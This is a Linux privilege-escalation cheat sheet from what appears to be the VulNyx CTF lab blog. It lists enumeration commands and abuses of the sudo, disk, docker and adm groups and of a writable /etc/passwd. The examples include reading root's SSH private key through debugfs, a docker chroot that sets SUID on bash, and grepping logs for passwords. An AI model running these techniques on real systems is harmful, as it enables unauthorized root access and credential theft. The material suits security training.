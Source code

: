 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Enumeration

```ruby
# sudo
sudo -l
# If when performing the previous step it tells you that sudo is not found
find / -name sudo 2>/dev/null

# suid
find / -perm -4000 2>/dev/null
find / -perm -4000 -ls 2>/dev/null
find / -perm -4000 -exec ls -l {} \; 2>/dev/null

# capabilities
/usr/sbin/getcap -r / 2>/dev/null

# users
grep "sh$" /etc/passwd

# writable
find / -writable 2>/dev/null
find / -writable 2>/dev/null | grep -viE "proc|sys|dev"
find / -writable -user low 2>/dev/null
```

If I identify a **binary** with `suid` or `sudo` **permissions** [**GTFOBins**](https://gtfobins.github.io) is the way.

---

### Cron (Task)

View `cron` jobs defined in **global file**, 

```ruby
cat /etc/crontab
```

If tasks have been defined in the individual file that each user has with `crontab -e`, it is necessary to monitor with specific tools.

---

### Groups

#### sudo

When a user is part of the `sudo` **group**, he can run any command as the `root` user.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),27(sudo)

# Abuse Group
low@vulnyx:~$ sudo su
root@vulnyx:~# id
uid=0(root) gid=0(root) groups=0(root)
```

#### disk

When a user is part of a `disk` **group**, he or she is granted direct access to the system **disks** and **partitions**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)

# Abuse Group
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm

low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
```

#### adm

When a user is part of the `adm` **group**, he can **read log files** on the system.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),4(adm)

# Abuse Group
low@vulnyx:~$ grep --color -Eri "pass|password|secret|db" /var/log 2>/dev/null
```

#### docker

When a user is part of the `docker` **group**, they have the ability to **manage containers**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),109(docker)

# Abuse Group
low@vulnyx:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# chmod 4755 /bin/bash
# exit
low@vulnyx:~$ /bin/bash -pi
```

#### lxd

#### fail2ban

#### video

---

### /etc/passwd (Writable)

If a low-privileged user has **write permissions** to the `/etc/passwd` file, an attacker can remove the `x` (on the **root** user line) and add a **hash**, this will cause the file that validates credentials to change from `/etc/shadow` to `/etc/passwd`.

```ruby
# Check Permissions
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd

# Create Hash
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0

# Add Hash
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash
# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash

# Authenticate
low@vulnyx:~$ su -
Password:
root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

#### Disclaimer

> ##### WARNING
> All techniques presented in this blog are for educational and ethical purposes.  
> The [VulNyx](https://vulnyx.com) team is not responsible for any misuse or damage caused to third party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
